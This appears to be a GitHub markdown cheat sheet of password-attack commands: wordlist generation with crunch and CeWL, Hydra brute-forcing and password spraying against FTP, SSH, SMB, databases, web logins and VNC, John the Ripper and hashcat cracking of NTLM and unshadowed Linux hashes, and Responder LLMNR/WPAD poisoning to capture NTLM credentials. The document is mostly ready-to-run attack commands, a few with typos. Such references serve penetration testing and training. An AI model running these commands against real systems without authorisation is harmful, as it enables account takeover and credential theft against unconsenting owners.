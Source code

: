# <h1 id="topheading">Password Fun</h1>

## Objective

Here are some tips and examples of password cracking and enumeration

##Creating Password Lists
```
crunch [min] [max] [characters] -t [pattern] -o [FileName]
crunch 4 6 0123456789ABCDEF -o crunch1.txt #From length 4 to 6 using that alphabet
crunch 4 4 -f /usr/share/crunch/charset.lst mixalpha #Only length 4 using charset mixalpha
cewl example.com -m 5 -w words.txt
```

Use CeWL to spider site and create a list of unique words used on the site:
```
cewl https://mywebsite.com -w /home/cewl_wordlist
```

**Wordlists**
https://github.com/danielmiessler/SecLists
https://github.com/Dormidera/WordList-Compendium
https://github.com/kaonashi-passwords/Kaonashi


## Hydra

Hydra FTP, MySQL, Postgres, and HTTPS Bruteforce:
```
hydra -L usernames.txt -P passwords.txt 192.168.2.62 ftp -V -f
hydra -L usernames.txt -P passwords.txt 192.168.2.66 mysql -V -f
hydra -L usernames.txt -P passwords.txt 192.168.2.62 postgres -V
hydra -L usernames.txt -P passwords.txt 192.168.2.62 http-post-form “/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login Failed”
```

Hydra Telnet , SSH, RTSP, and SNMP Bruteforce:
```
hydra -L usernames.txt -P passwords.txt 192.168.2.62 telnet -V
hydra -L usernames.txt -P passwords.txt 192.168.2.66 ssh -V
hydra -l root -P passwords.txt <IP> rtsp
hydra -P/usr/share/seclists/Discovery/SNMP/common-snmp-community-strings.txttarget.com snmp
```

Hydra SMB, SMB w/pass spraying SMTP, and VNC Bruteforce:
```
hydra -L usernames.txt -P passwords.txt 192.168.2.66 smb -V -f
hydra -L users.txt -p Autumn2016 2.3.4.5 smb
hydra -l <username> -P /path/to/passwords.txt <IP> smtp-V
hydra  -L /root/Desktop/user.txt –P /root/Desktop/pass.txt -s <PORT> <IP> vnc
```

## John the Ripper

**Run john in Test Mode and against a LANMAN password**
```
john --test
john LANMAN.txt
```


NTLM Cracking
```
john --wordlist=/usr/share/wordlists/rockyou.txt --format=NT file_NTLM.hashes
hashcat -a 0 -m 1000 --username file_NTLM.hashes /usr/share/wordlists/rockyou.txt --potfile-path salida_NT.pot
```

This command fuses the two files together into a single file called "combined":
```
unshadow /tmp/passwd_copy /tmp/shadow_copy > /tmp/combined
```

Look at JtR Dictionary:
```
less /opt/JohnTheRipper/run/password.lst
```

Crack Password and show passwords cracked:
```
john --format=sha512crypt /tmp/combined or john /tmp/combined
john --show mypasswd
```

Cracking Responder Hashes:
```
john -format=netntlmv2 ./SMB-NTLMv2-SSP-10.10.0.1.txt
```

General Process

John the Ripper:
```
unshadow passwd shadow > unshadowed.txt
john unshadowed.txt
```

Next, let’s go through the “john.log” file using the grep tool and see how long some of the passwords took to crack:
```
grep Cracked /root/.john/john.log
```

Let’s see how long it took for John the Ripper to switch between cracking modes:
```
grep Proceed /root/.john/john.log
```

## Responder

Responder to grab NTLM Creds (#-i tell victim systems to connect to this IP address for LLMNR responses):
```
cd /opt/Responder
./Responder/py -I eth0 -i 10.10.10.1
```

On Windows machine, type the following in the location bar:
```
\hellovr
```
Run Responder and Crack Password w/John:
```
sudo /opt/responder/Responder.py -I eth0
john --format=netntlmv2 /opt/responder/logs/SMBv2-NTLMv2-SSP.txt
```

Specify the IP address to redirect to (-i 192.168.1.202), enabling the WPAD rogue proxy (-w On), answers for netbios wredir (-r On), and fingerprinting (-f On):
```
responder -i 192.168.1.202 -w On -r On -f On

Responder -I eth0 -wbF
“-w” Starts the WPAD Server
“-b” Enables basic HTTP authentication
“-F” Forces authentication for WPAD (a login prompt)
```
